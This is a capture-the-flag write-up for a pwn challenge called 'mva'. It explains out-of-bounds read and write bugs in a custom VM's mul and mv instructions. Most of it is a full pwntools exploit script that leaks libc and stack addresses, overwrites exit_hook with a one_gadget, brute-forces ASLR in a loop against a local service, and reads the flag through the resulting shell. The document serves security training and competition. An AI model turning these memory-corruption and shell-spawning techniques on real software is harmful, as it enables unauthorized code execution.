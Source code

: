 # Pwn | mva (10 solves)

## Description

Just a simple program

[Attachments](./to_player/)

## Solution

普通VM Pwn，逆向发现
- mul指令没有对第二个操作数进行校验存在oob read
- mv指令没有对第二个操作数进行校验存在oob write

一种利用思路
- oob read溢出读libc和栈的地址
- oob write写sp计数器
- 最后 push指令改exit_hook到one_gadget

由于ASLR存在，VM又是16bit字长的，需要爆破。

sample exp

```python
#!/usr/bin/python3

from pwn import *
context.arch='amd64'

def pack(op:int, p1:int = 0, p2:int = 0, p3:int = 0) -> bytes:
    return  (op&0xff).to_bytes(1,'little') + \
            (p1&0xff).to_bytes(1,'little') + \
            (p2&0xff).to_bytes(1,'little') + \
            (p3&0xff).to_bytes(1,'little')

def ldr(val):
    return pack(0x01, 0, val >> 8, val)

def add(p1, p2, p3):
    return pack(0x02, p1, p2, p3)

def sub(p1, p2, p3):
    return pack(0x03, p1, p2, p3)

def shr(p1, p2):
    return pack(0x06, p1, p2)

def xor(p1, p2, p3):
    return pack(0x07, p1, p2, p3)

def push():
    return pack(0x09)

def pop(p1):
    return pack(0x0a, p1)

def mul(p1, p2, p3):
    return pack(0x0D, p1, p2, p3)

def mv(p1, p2):
    return pack(0x0E, p1, p2)

def sh():
    return pack(0x0F)

puts_offset = 0x845ca
puts_leak = (0x38 + 0x268 - 0x224) >> 1
onegadgetlst = [0xe3b2e, 0xe3b31, 0xe3b34]
onegadget = onegadgetlst[0]
toadd = onegadget - puts_offset
stack_leak = (0x268 - 0x224) >> 1
stack_pointer_leak = (0x238 - 0x224) >> 1

tosub = 0x1a799e + 0x308
# tosub = 0x1a399e + 0x308    # debug aslr
tosub = tosub - 0x3000  # no aslr : player environment
tosub = tosub - 0x4000  # aslr : player environment

# - 0x308 + stack_leak - puts + 0x1a799e
pay  = ldr(0x1)
pay += mv(0,1)
pay += ldr(tosub&0xffff)
pay += mv(0,3)
pay += mul(4,-puts_leak,1)
pay += mul(5,-stack_leak,1)
pay += sub(0,5,4)
pay += sub(0,0,3)
pay += shr(0,1)
pay += push()

pay += ldr((tosub>>16)&0xffff)
pay += mv(0,3)
pay += mul(4,-puts_leak+1,1)
pay += mul(5,-stack_leak+1,1)
pay += sub(0,5,4)
pay += sub(0,0,3)
pay += shr(0,1)
pay += push()

# onegadget
pay += mul(3,-puts_leak,1)
pay += mul(4,-puts_leak+1,1)
pay += ldr(toadd&0xffff)
pay += add(0,3,0)
pay += push()
pay += ldr(((toadd>>16)&0xffff)+1)
pay += add(0,4,0)
pay += push()
pay += mul(0,-puts_leak+2,1)
pay += push()
pay += pop(3)
pay += pop(4)
pay += pop(5)

pay += pop(1)
pay += pop(2)
pay += ldr(0xffff)
pay += xor(2,0,2)
pay += ldr(1)
pay += add(2,0,2)
pay += mv(2,-stack_pointer_leak)
pay += ldr(0xffff)
pay += xor(1,0,1)
pay += mv(1,-stack_pointer_leak+1)
pay += mv(0,-stack_pointer_leak+2)
pay += mv(0,-stack_pointer_leak+3)
pay += mv(5,0)
pay += push()
pay += mv(4,0)
pay += push()
pay += mv(3,0)
pay += push()
pay += ldr(0)
pay += push()




pay += sh()
print(hex(len(pay)))
assert len(pay) <= 0x100
pay = pay.ljust(0x100,b'\0')


# chance of this exp : about 1230 - 10125 times with 1 flag
# I admit this is an awful exp
while True:
    p=remote('127.0.0.1',9999)
    p.sendafter('\n',pay)
    try:
        p.recvuntil('starting ...\n')
        p.recvline()
        p.recvuntil('down ...\n')
        p.sendline('cat flag')
        res = p.recvline()
        print('[+] flag:', res)
        p.interactive()
        break
    except:
        p.close()
        pass
```

## Flag

`HFCTF{M4st3r_0f_vmmv_Mavm44mV4av4m_b03mtxEe4i45fdsdkz9DPWNc02d}`

## Side Note

- VM改编自[Armax/AVM](https://github.com/Armax/AVM)，Great Thanks to original author
- docker调试的时候偏移非常不稳定，docker-compose中加个调试启动参数也会使得libc段和ld段之间的偏移发生改变